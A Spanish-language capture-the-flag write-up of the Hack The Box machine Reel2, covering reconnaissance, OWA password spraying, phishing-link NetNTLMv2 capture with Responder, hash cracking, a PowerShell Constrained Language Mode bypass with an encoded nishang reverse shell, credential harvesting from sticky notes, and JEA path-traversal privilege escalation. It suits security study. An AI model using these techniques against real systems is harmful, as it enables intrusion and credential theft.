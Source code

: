 ```yaml
---
layout: single
title: HTB-Reel2
excerpt: "WriteUp con metodología de la máquina Reel2."
date: 2021-12-15
classes: wide
header:
  icon: /assets/images/hackthebox.webp
  teaser_home_page: true
  teaser: /assets/images/WriteUps/Reel2.png
categories:
  - WriteUps
tags:
  - HTB

---
```



<center><img src='/assets/images/WriteUps/Reel2.png'></center>

IP -> 10.10.10.210

# Reconocimiento
## Nmap
Utilizamos [nmap](/Nmap/) y obtenemos los siguientes resultados.

[Reel2 Nmap Result](/assets/files/WriteUps/Reel2.txt)

No vemos el servicio [SMB](/SMB/) aunque si encontramos el servicio [winrm](/winrm/) disponible.

## http:80
403 Forbidden

## https\:443 
### wappalizer

> Microsoft IIS 8.5

### Fuzz
Utilizamos herramientas como [gobuster](/gobuster/) o [wfuzz](/wfuzz/) para numerar directorios.

> /owa -> Servicio de correo.

Pero necesitamos credenciales válidas, probamos con algunas de las comunes pero no conseguimos nada.

## http\:8080
Tenemos otro panel de login, aunque esta vez podemos registrarnos, nos registramos e iniciamos en nuestra cuenta, el panel que se nos muestra es un panel similar a un facebook.

En el panel de búsqueda, buscamos algo y vemos que los que buscamos se tramita por la url, lo cambiamos a "" (nada) para ver que pasa, tratando de que nos muestre todos los usuarios. Lo conseguimos y nos montamos un diccionario de nombres y apellidos. 

> users

# Explotación

## https\:443
Para realizar fuerza bruta al panel de inicio de sesión de correo electrónico utilizamos la herramienta [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit), herramienta diseñada por el mismo creador que [Crackmapexec](/Crackmapexec/). Utilizaremos el **atomizer.py** para realizar la fuerza bruta. Aunque el mismo kit no incluye otra herramineta para jugar con los nombres y apellidos y hacer posibles nombres de usuario, esta otra herramienta es **spindrift.py**.


```bash
python3 spindrift.py users --format {first}{last} # Nombre + apellido
python3 spindrift.py users --format {f}{last} # Nombre[0] + apellido
python3 spindrift.py users --format {f}.{last} # Nombre[0] + "." + apellido

python3 atomizer.py owa 10.10.10.210 'Summer2020' users # Por lo que encontramos en la descripción de un usuario probamos esta contraseña
python3 atomizer.py owa 10.10.10.210 /usr/share/wordlists/rockyou.txt users
```

> USER: s.svensson
> PASS: Summer2020

## Evil-winrm
Nos conectamos con la herramienta [evil-winrm]((/winrm/)

## http\:443 
Utilizamos las credenciales para iniciar sesión en el owa. Como el texto está en Suizo, vamos a utilizar chromium para que nos traduzca el contenido. Buscamos mensjaes enviado, en borradores, papelera, bandeja de entrada. Pero no encontramos nada. Enviamos un correo a todos los usuarios con una url, para ver si alguno de los usuarios abre el link. Nos llega una petición POST. Nos ponemos en escucha no **netcat** para ver las cabeceras que nos envían. Pero no vemos ninguna cookie de sessión. Vamos a tratar de envenenar el tráfico con **responder.py**.

```bash
responder.py -I tun0
```

Vamos a volver a enviar un mensaje a todos los usuarios, para que accedan de nuevo a un recurso http. Pero esta vez al estar con el **responder.py**, conseguimos un hash netNTLMv2.

## john + rockyou.txt
Utilizamos **john** junto con el rockyou.txt. Y obtenemos una contraseña.

> USER: k.svensson
> PASS: kittycat1

## Evil-winrm
Nos conectamos con la herramienta [evil-winrm]((/winrm/)

## powershell
 
Para solucionar esto vamos a conectarnos con la powershell de linux.

```bash
pwsh
```
```powershell
$pass = ConvertTo-SecureString 'kittycat1' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ('htb.local\k.svensson', $pass)

Enter-PSSession -ComputerName 10.10.10.210 -Credential $cred -Authentication Negotiate
```

Nos conecta, pero nos muestra errores, aunque son errores de que no encuentra el comando, `Get-Command` nos muestra qué comandos podemos usar. Esta limitación puede ser porque nos encontramos en un **Constrained Language Mode**. Buscamos como comprobar si estamos limitado en google, ejecutamos el comando para comprobarlo y vemos que estamos limitados. Toca bypassearlo. 

Para bypassear el CLM, creamos una función y la ejecutamos.

```powershell
function location{ Get-Location }; location
```

Y bypasseado. Aunque para escapar del contexto y operar cómodamente, nos ponemos en escucha con nc y rlwrap. Para este caso, utilizamos el repositorio de nishang. Y utilizamos el **Invoke-PowerShellTcpOnelLine.ps1**, nos copiamos la 3ª linea comentada, cambiamos la ip y jugamos con base64 para enviarlo. Pero al ser windows tenemos que aplicar un tratamiento no visible a simple vista.

```bash
cat data | iconv -t utf-16le | base64 -w 0;echo
```

Bajo un script block en la consola powershell con CLM:

```powershell
&{ powershell -enc <data>}
```

> user.txt

# User Pivoting

## OS
```powershell
dir
cd ..\Documents
dir
type jea_test_account.psrc | select-string -NotMatch "^#"
net user jea_test_account
cd ..
dir -Force
cd AppData\Roaming
cd stickynotes
dir -recurse | select-string "jea_test_account"
cd Local\ Storage\leveldb
type 000003.log | Format-Hex
```

> Desktop\Sticky Notes.lnk -> Notas
> Documents\jea_test_account.psrc -> Configuration file
> USER: jea_test_account
> PASS: Ab!Q@vcg^%@#1

## Evil-winrm
Nos conectamos con la herramienta [evil-winrm]((/winrm/)

## Powershell
Nos volvemos a autenticar con [[winrm](/winrm/). Pero nos dice access denied. Como hemos encontrado un archivo de configuración y el `Enter-PSSession` tiene un parámetro para proporcionar ese arhcivo, vamos a ponerlo.

```powershell
Enter-PSSession -ComputerName 10.10.10.210 -Credential $cred -Authentication Negotiate -ConfigurationName jea_test_account
```

Conectado.

# PrivEsc

## OS 

```powershell
Get-Command
```

> Podemos ejecutar el Check-File

Con esta función podemos listar archivos, aunque no sabemos qué privilegios tenemos a la hora de listar, como utiliza una wild-card, podemos abusar de esto haciendo path traversal

```powershell
Check-File C:\ProgramData\..\Users\Administrator\Desktop\root.txt
```

> root.txt


---

Escrito el 15-12-2021 a las 05:31 pm por creep33.
